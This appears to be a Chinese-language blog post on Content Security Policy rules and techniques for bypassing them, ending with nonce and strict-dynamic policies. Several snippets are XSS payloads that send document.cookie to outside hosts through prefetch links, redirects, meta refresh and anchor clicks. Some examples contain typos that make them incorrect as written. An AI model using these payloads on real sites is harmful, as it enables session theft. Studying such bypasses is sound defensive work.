 ### Content Security Policy (CSP) 探究及其绕过

CSP作为在浏览器的防御策略 本质上和同源是一样的

一个简单的CSP规则如下

` header("Content-Security-Policy: default-src 'self';script-src 'self' http://leep0rt.cn")` \

其中 ` default-src` 定义资源默认加载策略

`script-src` 定义JS资源加载策略

类似的还有

` img-src` 作为图片加载策略

`style-src` 作为CSS加载策略



对于CSP想从缺陷上绕过是不可能的

意味着如今的CSP的绕过都是一些松散的匹配绕过



例如存在如下的匹配绕过：

一.蔡徐坤CSP

` header("Content-Secripy-Policy: default-src 'self';script-src *");`

以上规则JS代码可以随意用，天才代码

二.限制只使用本地的CSP

`header("Content-Secripy-Policy: default-src 'self';script-src 'self' ");` 

这个CSP是最常用的一个，限制了JS只能使用本域

但是如果我上传一个图片，其中图片内容为JS代码，那么可以轻松突破限制

例如图片内容为 ` alert(1);//` 

` <script src='upload/tupian.js'>` 

可以成功绕过

三.可信域限制到目录

```
header(" Content-Security-Policy: default-src 'self '; script-src http://127.0.0.1/static/ "); 
```

可以找一个302跳转网站

```
Static/302.php

<?php Header("location: ".$_GET['url'])?>
```

和上一样上传文件加载

```
<script src="static/302.php?url=upload/test.jpg">
```



四.	拒接不可信域的请求

```
header("Content-Security-Policy: default-src 'self'; script-src 'self' ");
```

在上面的CSP规则下，如果我们尝试加载外域的图片，就会被阻止

```
<img src="http://xxxxxx.cn/1.jpg">  ->  阻止
```

在CSP的演变过程中，难免就会出现了一些疏漏

```
<link rel="prefetch" href="http://xxxx.cn"> (H5预加载)(only chrome)
<link rel="dns-prefetch" href="http://xxxxx.cn"> （DNS预加载）
```

在CSP1.0中，对于link的限制并不完整，不同浏览器包括chrome和firefox对CSP的支持都不完整，每个浏览器都维护一份包括CSP1.0、部分CSP2.0、少部分CSP3.0的CSP规则。



五.允许执行内敛脚本

```
header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' ");
```

允许使用内联资源，如内联的 `<javascript>`元素、`javascript:` URL、内联的事件处理函数和内联的 `style`元素。两侧单引号是必须的。

**页面中直接添加的脚本就可以被执行了。**   

​	**通过js来生成link prefetch** 

​	预先加载(prefetch),它的原理是:  利用浏览器的空闲时间去先下载用户指定需要的内容,然后缓存起来,这样用户下次加载时,就直接从缓存中取出来,效率就快了 

```js
var n0t = document.createElement("link");
n0t.setAttribute("rel", "prefetch");
n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
document.head.appendChild(n0t);
```

(chrome可以用)

 	**跳转**

在浏览器的机制上， 跳转本身就是跨域行为

```
<script>location.href=http://lorexxar.cn?a+document.cookie</script>

<script>windows.open(http://lorexxar.cn?a=+document.cooke)</script>

<meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
```

通过跨域请求，我们可以把我们想要的各种信息传出

**跨域请求**

在浏览器中，有很多种请求本身就是跨域请求，其中标志就是href。

```
var a=document.createElement("a");
a.href='http://xss.com/?cookie='+escape(document.cookie);
a.click();
```

包括表单的提交，都是跨域请求



### 当今的新CSP

在最近几年，随着CSP被绕过的越来越多，又提出了新的CSP规则

最新的添加nonce随机序列号呀，严格匹配呀

**1、nonce script CSP**

```
header("Content-Security-Policy: default-src 'self'; script-src 'nonce-{random-str}' ");
```

动态的生成nonce字符串，只有包含nonce字段并字符串相等的script块可以被执行。

```
<script nonce="{random-str}">alert(1)</script>
```

这个字符串可以在后端实现，每次请求都重新生成，这样就可以无视哪个域是可信的，只要保证所加载的任何资源都是可信的就可以了。

```
<?php

Header("Content-Security-Policy: script-src 'nonce-".$random." '"");
?>
<script nonce="<?php echo $random?>">
```

bypass:

**Nonce CSP对纯静态的dom xss简直没有防范能力** 

https://lorexxar.cn/2017/05/16/nonce-bypass-script/





**2、strict-dynamic**

```
header("Content-Security-Policy: default-src 'self'; script-src 'strict-dynamic' ");
```

SD意味着可信js生成的js代码是可信的。

这个CSP规则主要是用来适应各种各样的现代前端框架，通过这个规则，可以大幅度避免因为适应框架而变得松散的CSP规则。



Script Gadgets 一种类似于短标签的东西，在现代的js框架中四处可见

```
For example:
Knockout.js

<div data-bind="value: 'foo'"></div>

Eval("foo")

<div data-bind="value: alert(1)"></dib>

bypass
```

Script Gadgets本身就是动态生成的js，所以对新型的CSP几乎是破坏式的Bypass。